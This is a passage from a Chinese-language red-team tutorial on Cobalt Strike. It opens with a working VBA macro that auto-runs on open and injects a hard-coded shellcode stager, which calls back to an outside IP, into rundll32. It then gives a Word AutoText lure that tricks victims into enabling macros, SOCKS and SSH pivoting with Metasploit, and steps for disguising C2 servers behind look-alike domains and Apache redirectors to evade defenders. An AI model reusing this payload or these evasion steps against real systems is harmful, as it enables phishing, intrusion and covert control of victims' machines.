    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-4,-24,-119,0,0,0,96,-119,-27,49,-46,100,-117,82,48,-117,82,12,-117,82,20,-117,114,40,15,-73,74,38,49,-1,49,-64,-84,60,97,124,2,44,32,-63,-49, _
13,1,-57,-30,-16,82,87,-117,82,16,-117,66,60,1,-48,-117,64,120,-123,-64,116,74,1,-48,80,-117,72,24,-117,88,32,1,-45,-29,60,73,-117,52,-117,1, _
-42,49,-1,49,-64,-84,-63,-49,13,1,-57,56,-32,117,-12,3,125,-8,59,125,36,117,-30,88,-117,88,36,1,-45,102,-117,12,75,-117,88,28,1,-45,-117,4, _
-117,1,-48,-119,68,36,36,91,91,97,89,90,81,-1,-32,88,95,90,-117,18,-21,-122,93,104,110,101,116,0,104,119,105,110,105,84,104,76,119,38,7,-1, _
-43,49,-1,87,87,87,87,87,104,58,86,121,-89,-1,-43,-23,-124,0,0,0,91,49,-55,81,81,106,3,81,81,104,-72,34,0,0,83,80,104,87,-119,-97, _
-58,-1,-43,-21,112,91,49,-46,82,104,0,2,64,-124,82,82,82,83,82,80,104,-21,85,46,59,-1,-43,-119,-58,-125,-61,80,49,-1,87,87,106,-1,83,86, _
104,45,6,24,123,-1,-43,-123,-64,15,-124,-61,1,0,0,49,-1,-123,-10,116,4,-119,-7,-21,9,104,-86,-59,-30,93,-1,-43,-119,-63,104,69,33,94,49,-1, _
-43,49,-1,87,106,7,81,86,80,104,-73,87,-32,11,-1,-43,-65,0,47,0,0,57,-57,116,-73,49,-1,-23,-111,1,0,0,-23,-55,1,0,0,-24,-117,-1, _
-1,-1,47,51,121,84,89,80,122,66,53,112,76,87,89,75,113,74,100,84,90,121,106,66,112,121,121,119,90,99,68,118,82,54,65,0,103,127,111,24, _
35,-49,-63,119,22,-20,-90,-2,-46,75,38,1,-88,-5,-4,60,115,-3,-65,-46,12,90,-3,42,119,-35,-11,57,-84,-47,-11,116,-25,48,-60,-70,5,57,-119,-96, _
-55,0,85,115,101,114,45,65,103,101,110,116,58,32,77,111,122,105,108,108,97,47,53,46,48,32,40,99,111,109,112,97,116,105,98,108,101,59,32,77, _
83,73,69,32,49,48,46,48,59,32,87,105,110,100,111,119,115,32,78,84,32,54,46,50,59,32,87,79,87,54,52,59,32,84,114,105,100,101,110,116, _
47,54,46,48,59,32,77,65,71,87,74,83,41,13,10,0,126,119,-63,-74,-127,53,116,88,93,48,-2,68,119,-22,29,-29,76,48,-111,45,37,-14,-110,-49, _
-61,-72,111,75,-102,47,-47,-120,91,-82,-34,-78,9,-81,-116,87,112,25,9,51,-109,17,-128,-27,61,-70,-49,0,-106,26,-112,-101,-33,65,82,38,-36,-77,-62,53, _
-31,60,108,-57,101,-49,-26,-50,84,48,36,21,-62,-60,1,-18,38,-120,-113,-94,-96,106,11,4,112,-24,41,-70,-5,33,55,-49,126,-99,-120,-84,-55,60,-113,-48, _
17,123,-7,-55,3,70,90,66,-53,79,-30,46,-121,-96,-11,75,-111,-28,-123,108,121,-80,57,104,26,-41,25,58,-93,65,-100,98,59,-79,-6,77,-50,120,102,-69, _
33,24,111,-30,-63,120,49,-32,-52,68,-111,-106,51,-126,-51,67,-13,-61,-26,33,38,122,-10,-25,-97,-5,44,101,74,93,-70,-103,9,-28,89,89,74,44,-88,-23, _
-97,107,-12,81,106,-25,-81,122,-56,-38,-31,-33,114,-117,100,44,70,-6,-82,85,-95,-126,-106,-52,121,0,104,-16,-75,-94,86,-1,-43,106,64,104,0,16,0,0, _
104,0,0,64,0,87,104,88,-92,83,-27,-1,-43,-109,-71,0,0,0,0,1,-39,81,83,-119,-25,87,104,0,32,0,0,83,86,104,18,-106,-119,-30,-1,-43, _
-123,-64,116,-58,-117,7,1,-61,-123,-64,117,-27,88,-61,-24,-87,-3,-1,-1,56,49,46,55,48,46,49,51,46,50,49,57,0,0,1,-122,-96)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

**Word 自动图文集伪装钓鱼**

利用过程是打开 Word 文档展示一个页面，诱导你开启宏，当启用后，自动会把 Word 内容删除插入图文集内容，以迷惑人员。根本上其实就是利用宏做事情。

先建立好一个正常文档，把内容全选，通过 “插入 -> 文档部件 -> 自动图文集 -> 将所选内容保存到自动图文集”，英文路径是 “Insert -> Quick Parts -> Auto Text -> Save Selection to AutoText Gallery”。


正常文档保存到图文集后，可以将内容删除，后面通过宏自动插入。目前需要诱导受害者开启宏，我们编辑一条文案。


在宏里，第一条和第二条语句，先删除文档内容，第三条将名为 TestDocum 图文集插入到文档。

```plaintext
Sub DecryptDocument()
    ActiveDocument.Content.Select
    Selection.Delete
    ActiveDocument.AttachedTemplate.AutoTextEntries("TestDocum").Insert Where:=Selection.Range, RichText:=True
End Sub


Sub AutoOpen()
    DecryptDocument
End Sub
```


**自动图文集与远程模板钓鱼**

[https://blog.joeminicucci.com/2021/office-pretexting-using-autotext-and-remote-templates](https://blog.joeminicucci.com/2021/office-pretexting-using-autotext-and-remote-templates)

#### Payload Gennerator

生成原始 Payload。

#### Windows Executable/Executable (S)

#### Manage

查看 Cobalt Strike 所启用的 Web 站点

#### Clone Site

克隆一个站点。

#### Host File

相当于开个 Web 服务把 Payload 上传上去，最后给出个连接用于下载文件，和 `python -m http.server <port>` 没区别。


配置结果是 [http://192.168.0.102:80/download/file.ext，Description](http://192.168.0.102/download/file.ext%EF%BC%8CDescription) 还会告诉你文件上传到 Server 哪个目录中。


#### Scripted Web Delivery (S)

菜单 Attacks -> Web Driveby -> Scripted Web Delivery (S)

工具栏 

Type：

-   bitsadmin
-   exe
-   powershell
-   powershell IEX
-   python

使用脚本上线。

#### System Profier

在 Cobalt Strike 服务端建立 Web 应用，当访问这个应用后可以收集目标浏览器、IP 等信息。

在菜单 Attacks -> Web Drive-by -> System Profiler 打开配置。


Local URI、Local Host、Local Port、Enable SSL 都是用来配置站点信息的，以默认配置来看点击 Lanuch 就会创建 [http://172.20.10.4:80/](http://172.20.10.4/) 站点，「Use Java Applet to get information」是利用 Applet 来收集目标系统信息，Redirect URL 就是访问站点后会重定向到哪个 URL。

新创建好的 Web 站点可以到菜单 Attakcs -> Web Drive-by Manage 或工具栏  查看管理。


目标访问完成获取到的信息在菜单 View -> Applications 查看收集结果。


### Becaon Spawn

将 Becaon 转到不同 CS 服务器中，可以多人一起操作。

A Server 已经获得 Becaon，另一台 B Server 创建好相同 Linstener，通过连接到 Becaon 右键 Spawn 即可。

### CS 与 MSF 联动

#### CS 开启 Sockes 与 MSF 联动

在 Becaon 标签中使用 `socks <port>` 在 Cobalt Strike Server 开启 Socks 端口。

```plaintext
beacon> socks 8080
[+] started SOCKS4a server on: 8080
[+] host called home, sent: 16 bytes
```

所开启的 Socks 端口可以在 View -> Proxy Pivots 查看。


服务器确实开启了 8080。

```plaintext
┌──(kali㉿kali)-[~/Desktop/coablt_strike_4.5]
└─$ netstat -pant | grep 8080
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp6       0      0 :::8080                 :::*                    LISTEN      -
```

/etc/proxychains.conf 配置好 Sockes 代理，地址填 Cobalt Strike Server 服务器公网地址，端口填刚开的 Socks 端口，以 192.168.0.102:8080 为例。

```plaintext
# ProxyList format
# socks5 <Host> <Port> <User> <Password>
# socks4 <Host> <Port>
# http <Host> <Port>
# http <Host> <Port> <User> <Password>
[ProxyList]
socks4 192.168.0.102 8080
```

接着就能使用 proxychains 命令让所有程序产生的流量走配置文件中 Sockes，Cobalt Strike Server 收到 Socks 流量就会转到目标 Beacon。

```plaintext
proxychains <command>
```

接下来可以通过 proxychains 对 Becaon 内网其他主机进行横向，这里我用 nmap 扫描内网主机 192.168.0.103 的 445 端口。

```plaintext
┌──(kali㉿kali)-[~/Desktop/coablt_strike_4.5]
└─$ proxychains nmap -sT -p 445 -Pn -n 192.168.0.103                                                                                                                                        130 ⨯
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-12 04:19 EDT
[proxychains] Strict chain  ...  192.168.0.102:8080  ...  192.168.0.103:445  ...  OK
Nmap scan report for 192.168.0.103
Host is up (0.018s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 0.06 seconds
```

要是想 MSF 也走 Socks 代理，打开菜单 View -> Proxy Pivots 标签中 Tunnel 按钮直接给出 MSF 设置 socks 代理命令，复制粘贴铁到 MFS 执行。


设置完代理以 TCP-SYN 扫描 445 端口。

```plaintext
msf6 > setg Proxies socks4:192.168.0.102:8080
Proxies => socks4:192.168.0.102:8080
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set rhosts 192.168.0.101
rhosts => 192.168.0.101
msf6 auxiliary(scanner/portscan/tcp) > set ports 445
ports => 445
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 192.168.0.101:        - 192.168.0.101:445 - TCP OPEN
[*] 192.168.0.101:        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

如果还想 MSF 通过 Socks 代理获取 Shell，需要开启 `ReverseAllowProxy` 选项。

```plaintext
msf6 > setg ReverseAllowProxy true
ReverseAllowProxy => true
```

临时无需代理可以用 unsetg 取消 MSF 全局代理。

```plaintext
unsetg Proxies
```

后面 MSF 直接运行 Explit 利用程序就能获取 Shell。

#### MSF 本地 SSH 动态端口转发 CS Foreign HTTP(S) 监听器流量

Listener 设置 Payload 为 Foreign HTTP(S)，主机填 Server 地址。


MSF 设置 Payload 与 CS 中对应：

-   windows/foreign/reverse\_http -> windows/meterpreter/reverse\_http
-   windows/foreign/reverse\_https -> windows/meterpreter/reverse\_https

本地 MSF 设置完 run 起来监听 MSF 本地地址和端口，等待 Shell 连接。

```plaintext
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set lhost 1.1.1.1
msf6 exploit(multi/handler) > set lport 1111
msf6 exploit(multi/handler) > run

[*] Stared HTTP reverse handler on http://1.1.1.1:1111
```

此时用 SSH 隧道完成流量转发，它俩就能互相通信。原理是 MSF 所在主机主动连接 Cobalt Strike Server 将其设置的 Foreign HTTP(S) 监听器流量转发到本地 MSF 中

SSH 隧道配置：

1.编辑 CobaltStrike 服务器 SSH 配置文件 /etc/ssh/sshd\_config，将以下配置值更改并重启服务。

```plaintext
PasswordAuthentication yes
AllowTcpForwarding yes
GatewayPorts yes
TCPKeepAlive yes
```

2.用 ssh 连接到 192.168.0.102 CobaltStrike 服务器，将本地 MSF meterpreter 监听地址 1.1.1.1:1111 流量转发到公网网卡 0.0.0.0:8888 上。

```plaintext
ssh -C -f -N -g -R 0.0.0.0:8888:1.1.1.1:1111 root@192.168.0.102
```

\-C 压缩传输加快传输速度，-f 将 SSH 程序放到后台执行，-N 建立静默链接，-g 允许远程主机连接到本地转发的端口，-R 远程端口转发。

MSF 所在主机成功建立 SSH 连接。

```plaintext
┌──(kali㉿kali)-[~/Desktop/coablt_strike_4.5_cracked]
└─$ netstat -pant | grep ssh
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 1.1.1.1:46848     192.168.0.102:22         ESTABLISHED 503657/ssh
```

Cobalt Strike Server 监听器端口随后成功启动，要是监听地址不是 0.0.0.0 检查 ssh 配置文件 `GatewayPorts yes` 是否开启。

```plaintext
[root@VM-24-2-centos CobaltStrike4.5]# netstat -pant | grep 8888
tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN      2205175/sshd: root  
tcp6       0      0 :::8888                 :::*                    LISTEN      2205175/sshd: root  
```

接下来右键 Beacon 标签或者 Beacon 视图，选择 Beacon Spawn。

  


选择刚创建的 Foreign HTTP(S) 监听器，将 Becaon 转发到 8888 端口。


MSF 成功收到 Shell。

另一种方式是 Cobalt Strike Server 服务器上安装 MSF 直接 Spawn。

MSF 开启监听。

```plaintext
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set lhost 1.1.1.1
msf6 exploit(multi/handler) > set lport 1111
msf6 exploit(multi/handler) > run

[*] Stared HTTP reverse handler on http://1.1.1.1:1111
```

Cobalt Strike Foreign HTTP(S) 监听器则设置服务器公网地址和 MSF 中监听的 Port。将 Beacon Spawn 到此监听器即可。

### 插件

可以对 Cobalt Strike 利用功能进行扩展。

这里使用 [https://github.com/pandasec888/taowu-cobalt-strike](https://github.com/pandasec888/taowu-cobalt-strike) 做实例。

在菜单 Cobalt Strike -> Script Manager 打开 Scripts 标签 Load .cna 文件即可加载。


如果插件加载完包含中文乱码，可以在启动时加上 -Dfile.encoding=utf-8。

### 快捷键

控制台

Ctrl +，放大界面字体  
Ctrl -，缩小界面字体  
Ctrl 0，恢复默认字体大小  
Ctrl K，清空 Console 内容，只是临时清除，下次登录打开历史记录还在  
Ctrl D，关闭选项卡

[https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/appendix-a\_main.htm](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/appendix-a_main.htm)  
[https://www.trustedsec.com/blog/red-teaming-with-cobalt-strike-not-so-obvious-features/](https://www.trustedsec.com/blog/red-teaming-with-cobalt-strike-not-so-obvious-features/)

## C2 隐蔽

### 服务器

购买可以按时计费的 VPS。

SSH 更换默认端口，其他安全方案可以参考 [Linux - SSH 服务](https://www.raingray.com/archives/2359.html#SSH+%E5%AE%89%E5%85%A8%E9%98%B2%E6%8A%A4) 的 SSH 安全防护小节做加固。

防火墙禁止放开不必要端口。

防火墙禁止 ICMP 请求。

### 域名与证书

在实际渗透中可能会用到 HTTP/HTTPS 进行通信，蓝队遇到一台主机通信流量中直连 IP 会产生怀疑，因此购买个域名伪装成正常站点是有必要的。

域名选购要选名称有意义的域名，并且在搭建应用时与其匹配。比如这次红队的目标是一家专注于 FPS 类电子竞技游戏俱乐部，那么我们可以挑选一个看起来和俱乐部有关的域名，如 fpsgame.club，看名称是个 FPS 游戏类俱乐部站点，域名对应的应用也要是 FPS 游戏俱乐部，再结合[反向代理](#%E5%8F%8D%E5%90%91%E4%BB%A3%E7%90%86)会晃过些没有经验的蓝队，他们去访问域名展示的是一个正常应用，有可能会误判为正常通信。

那具体去哪里买呢？最好选国外的域名供应商，这样不会有备案要求，比如 [Google Domains](https://domains.google/)、[GoDaddy](https://www.godaddy.com/en-au)，这些域名提供商可以比对价格找家算下来最优惠的买。注册这些提供商要注意，因为他们有的在国内有服务运营，因此注册时挂上梯子上官网注册，不要注册成国内账户。

免费 SSL DV 证书可以用 [Let's Encrypt](https://letsencrypt.org/) 机构签发，它可以做到命令行自动化签发、续期操作，非常方便。这样可以避免自签名证书告警信息。


Let's Encrypt 有很多客户端，这里使用 [Certbot](https://certbot.eff.org/) 半自动化为域名注册证书。

```plaintext
root@redirector:~# certbot certonly --standalone -d example.com
Requesting a certificate for example.com

Successfully received certificate.
Certificate is saved at: /etc/letsencrypt/live/example.com/fullchain.pem
Key is saved at:         /etc/letsencrypt/live/example.com/privkey.pem
This certificate expires on 2023-05-27.
These files will be updated when the certificate renews.
Certbot has set up a scheduled task to automatically renew this certificate in the background.

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
If you like Certbot, please consider supporting our work by:
 * Donating to ISRG / Let's Encrypt:   https://letsencrypt.org/donate
 * Donating to EFF:                    https://eff.org/donate-le
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
```

\-d 选项可以对多个域名进行注册，一般第一个是具体证书对应域名。

颁发证书时需要确保这个域名是你自己的，防止随意申请，这个验证到底验什么？因此指定下 HTTP 验证（也有[其他类型](https://letsencrypt.org/docs/challenge-types/)），certbot 在当前目录创建 `.well-known/acme-challenge/<randomFile>`，开启 Web 服务，最后自动发起验证请求，让 CA 验证 `http://example.com/.well-known/acme-challenge/<randomFile>`，响应成功证明域名是你本人的（如果验证失败可能是防火墙禁止了 80）。

certbot 生成的证书默认有效期是 90 天，因此需要使用 cron 任务计划帮助我们自动续期证书（命令需要使用 root 权限运行此命令，程序路径要写绝对路径）。

```plaintext
# 每天 00:00 更新证书有效期，如果到期自动续期，没到期不做处理。
0 0 1 * * /usr/bin/certbot renew
```

证书有效期可以用 `certbot certificates` 查看当前证书信息，如果 cron 自动失效可以执行 `certbot renew -q --force-renewal` 手动强制更新证书有效期，不管到没到期（注意频繁使用可能禁止你的请求）。

```plaintext
root@redirector:~# certbot certificates
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Found the following certs:
  Certificate Name: www.example.com
    Serial Number: ......
    Key Type: RSA
    Domains: example.com
    Expiry Date: 2023-05-01 23:02:53+00:00 (VALID: 64 days)
    Certificate Path: /etc/letsencrypt/live/www.example.com/fullchain.pem
    Private Key Path: /etc/letsencrypt/live/www.example.com/privkey.pem
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
root@redirector:~# certbot renew -q --force-renewal
root@redirector:~# certbot certificates
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Found the following certs:
  Certificate Name: www.example.com
    Serial Number: ......
    Key Type: RSA
    Domains: example.com
    Expiry Date: 2023-05-27 11:42:29+00:00 (VALID: 89 days)
    Certificate Path: /etc/letsencrypt/live/www.example.com/fullchain.pem
    Private Key Path: /etc/letsencrypt/live/www.example.com/privkey.pem
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
```

手动成功更新过程。

```plaintext
ubuntu@TeamServer:~$ sudo certbot renew
Saving debug log to /var/log/letsencrypt/letsencrypt.log

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Processing /etc/letsencrypt/renewal/www.example.com.conf
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Renewing an existing certificate for www.example.com

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Congratulations, all renewals succeeded: 
  /etc/letsencrypt/live/www.example.com/fullchain.pem (success)
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
ubuntu@TeamServer:~$ sudo certbot certificates
Saving debug log to /var/log/letsencrypt/letsencrypt.log

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Found the following certs:
  Certificate Name: www.example.com
    Serial Number: ......
    Key Type: RSA
    Domains: www.example.com
    Expiry Date: 2023-08-27 01:38:15+00:00 (VALID: 89 days)
    Certificate Path: /etc/letsencrypt/live/www.example.com/fullchain.pem
    Private Key Path: /etc/letsencrypt/live/www.example.com/privkey.pem
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
```

关于 certbot 命令遇到的问题和各种常见操作可以查询 [certbot 文档](https://eff-certbot.readthedocs.io/en/stable/)得到解决方案。

### 反向代理

[https://wbglil.gitbook.io/cobalt-strike/](https://wbglil.gitbook.io/cobalt-strike/)

[HTTPS Payload and C2 Redirectors (bluescreenofjeff.com)](https://bluescreenofjeff.com/2018-04-12-https-payload-and-c2-redirectors/)

[Obfuscating C2 During a Red Team Engagement | JUMPSEC LABS](https://labs.jumpsec.com/obfuscating-c2-during-a-red-team-engagement/)

[BuildAndDestroy/c2-redirectors: Automate c2 redirector deployments. (github.com)](https://github.com/BuildAndDestroy/c2-redirectors)

[YouTube](https://www.youtube.com/watch?v=eA1BWZZl4cs)

[域列表 (expireddomains.net)](https://www.expireddomains.net/domain-lists/)

[bluscreenofjeff/Red-Team-Infrastructure-Wiki: Wiki to collect Red Team infrastructure hardening resources (github.com)](https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki#design-considerations)

[Taking the pain out of C2 infrastructure (Part 2) (substack.com)](https://byt3bl33d3r.substack.com/p/taking-the-pain-out-of-c2-infrastructure-3c4)

[Infrastructure - Pentester's Promiscuous Notebook (snovvcrash.rocks)](https://ppn.snovvcrash.rocks/red-team/infrastructure#autossh)

[C2 Redirectors - Google 搜索](https://www.google.com/search?q=C2+Redirectors&sxsrf=AJOqlzUs06PoNcKy9Zqh_A7_Ro9CAXvjrg:1676037518117&ei=jk3mY6fiBubd-QaDjKfoCg&start=20&sa=N&ved=2ahUKEwin4Zanjov9AhXmbt4KHQPGCa04ChDw0wN6BAgFEBc&biw=2000&bih=1002&dpr=1.25)

[https://howto.thec2matrix.com/attack-infrastructure/redirectors](https://howto.thec2matrix.com/attack-infrastructure/redirectors)

[https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki#c2-redirection](https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki#c2-redirection)

在实际行动中为防止威胁情报、网络空间搜索引擎扫描到 C2 特征被打上恶意标记，现实中会在 C2 服务器对外只开放 SSH 服务，所有流量通过反向代理（国外叫 Redirectors 或 Reverse Proxies）根据请求中的特征转发到 C2 服务器，不符合特征的重定向到正常反代或其他公网应用。红队操作员通过 SSH 隧道连接上 C2 TeamServer 进行操作。


就算应急人员顺着异常流量找到反代服务器，没有特定请求头访问就展示正常 Web 应用，再结合流量伪装，让一些没有经验的应急人员误以为是正常站点通信。

#### Apache

安装 apache2。

```plaintext
root@redirector:~# sudo apt install apache2 -y
```

确认应用状态，保证启动。

```plaintext
root@redirector:~# ss -latn
State    Recv-Q  Send-Q   Local Address:Port   Peer Address:Port   Process        
LISTEN   0       128          127.0.0.1:6010        0.0.0.0:*      
LISTEN   0       128          127.0.0.1:6011        0.0.0.0:*      
LISTEN   0       4096           0.0.0.0:8091        0.0.0.0:*      
LISTEN   0       4096     127.0.0.53%lo:53          0.0.0.0:*      
LISTEN   0       128            0.0.0.0:22          0.0.0.0:*      
ESTAB    0       68         172.26.7.83:22    223.104.40.10:17316  
ESTAB    0       0          172.26.7.83:22    223.104.40.10:9123
LISTEN   0       128              [::1]:6010           [::]:*
LISTEN   0       128              [::1]:6011           [::]:*
LISTEN   0       511                  *:80                *:*
LISTEN   0       128               [::]:22             [::]:*
ubuntu@ip-172-26-7-83:~$ systemctl status apache2
● apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; enabled; vendor preset: enabled)
     Active: active (running) since Fri 2023-02-10 06:12:13 UTC; 2h 20min ago
       Docs: https://httpd.apache.org/docs/2.4/
   Main PID: 110631 (apache2)
      Tasks: 55 (limit: 2372)
     Memory: 5.9M
     CGroup: /system.slice/apache2.service
             ├─110631 /usr/sbin/apache2 -k start
             ├─110634 /usr/sbin/apache2 -k start
             └─110635 /usr/sbin/apache2 -k start

Feb 10 06:12:13 ip-172-26-7-83 systemd[1]: Starting The Apache HTTP Server...
Feb 10 06:12:13 ip-172-26-7-83 systemd[1]: Started The Apache HTTP Server.
```

启用 [ssl](https://httpd.apache.org/docs/2.4/mod/mod_ssl.html) 证书、[proxy](https://httpd.apache.org/docs/2.4/mod/mod_proxy.html) 反向代理和 [rewrite](https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html) 重写模块，最后重启服务生效。其原理就是把 /etc/apache2/mods-available 内模块软链接到 /etc/apache2/mods-enabled。

```plaintext
root@redirector:~# a2enmod proxy proxy_http ssl rewrite && systemctl restart apache2
Enabling module proxy.
Considering dependency proxy for proxy_http:
Module proxy already enabled
Enabling module proxy_http.
Considering dependency setenvif for ssl:
Module setenvif already enabled
Considering dependency mime for ssl:
Module mime already enabled
Considering dependency socache_shmcb for ssl:
Module socache_shmcb already enabled
Enabling module ssl.
See /usr/share/doc/apache2/README.Debian.gz on how to configure SSL and create self-signed certificates.
Enabling module rewrite.
To activate the new configuration, you need to run:
  systemctl restart apache2
```

服务安装完成需要根据域名含义搭建一套应用程序，用于模拟正常应用，这里不做演示。

**启用 SSL**

安装完成后会有 `/etc/apache2/sites-enabled` 和 `/etc/apache2/sites-available` 两个目录，sites-enabled 是代表当前已经启用的虚拟主机站点（里面配置文件都是软连接到 sites-available 目录）。

```plaintext
root@redirector:~# ll /etc/apache2/sites-enabled/
total 8
drwxr-xr-x 2 root root 4096 Feb 27 15:21 ./
drwxr-xr-x 8 root root 4096 Feb 27 15:56 ../
lrwxrwxrwx 1 root root   35 Feb 27 13:47 000-default.conf -> ../sites-available/000-default.conf
```

因此我们要启用一个站点需要将 sites-available 软连接到当前 sites-enabled 目录内。这里我要启用 SSL 的虚拟主机所以把默认 80 端口的虚拟主机停用。

先查看有哪些站点已经启用。

```plaintext
root@redirector:~# a2query -s
000-default (enabled by site administrator)
```

停用 000-default 站点，可以看到软链接已经删除。

```plaintext
root@redirector:~# ll /etc/apache2/sites-enabled/
total 8
drwxr-xr-x 2 root root 4096 Mar  1 13:25 ./
drwxr-xr-x 8 root root 4096 Mar  1 13:16 ../
lrwxrwxrwx 1 root root   35 Feb 27 13:47 000-default.conf -> ../sites-available/000-default.conf
root@redirector:~# a2dissite 000-default
Site 000-default disabled.
To activate the new configuration, you need to run:
  systemctl reload apache2
root@redirector:~# ll /etc/apache2/sites-enabled/
total 8
drwxr-xr-x 2 root root 4096 Mar  1 13:29 ./
drwxr-xr-x 8 root root 4096 Mar  1 13:16 ../
```

使用 a2ensite 对 default-ssl.conf 做软链接启用站点。

```plaintext
root@redirector:~# ll /etc/apache2/sites-available/
total 20
drwxr-xr-x 2 root root 4096 Mar  1 13:25 ./
drwxr-xr-x 8 root root 4096 Mar  1 13:16 ../
-rw-r--r-- 1 root root 1333 Mar  1 13:25 000-default.conf
-rw-r--r-- 1 root root 6339 Mar  1 13:25 default-ssl.conf
root@redirector:~# a2ensite  default-ssl
Enabling site default-ssl.
To activate the new configuration, you need to run:
  systemctl reload apache2
root@redirector:~# ll /etc/apache2/sites-enabled/
total 8
drwxr-xr-x 2 root root 4096 Mar  1 13:42 ./
drwxr-xr-x 8 root root 4096 Mar  1 13:16 ../
lrwxrwxrwx 1 root root   35 Mar  1 13:42 default-ssl.conf -> ../sites-available/default-ssl.conf
```

修改 /etc/apache2/ports.conf 禁止监听 80 端口。

```plaintext
root@redirector:~# sudo sed -i 's/Listen 80/#Listen 80/' /etc/apache2/ports.conf
root@redirector:~# grep 80$ /etc/apache2/ports.conf
#Listen 80
```

确保只开启 HTTPS 默认 443 端口。

```plaintext
root@redirector:/etc/apache2/sites-available# ss -ltnp | egrep '80|443'   
LISTEN    0    511    *:443    *:*    users:(("apache2",pid=1180217,fd=4),("apache2",pid=1180216,fd=4),("apache2",pid=1180215,fd=4))
```

**配置 SSL**

```plaintext
root@redirector:~# grep -v '#' /etc/apache2/sites-enabled/default-ssl.conf 
<IfModule mod_ssl.c>
    <VirtualHost _default_:443>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        # 开启 SSL
        SSLEngine on
        # 配置 SSL 证书
        SSLCertificateFile "/etc/letsencrypt/live/www.example.com/fullchain.pem"
        # 配置 SSL 证书私钥
        SSLCertificateKeyFile "/etc/letsencrypt/live/www.example.com/privkey.pem"

        <FilesMatch "\.(cgi|shtml|phtml|php)$">
            SSLOptions +StdEnvVars
        </FilesMatch>
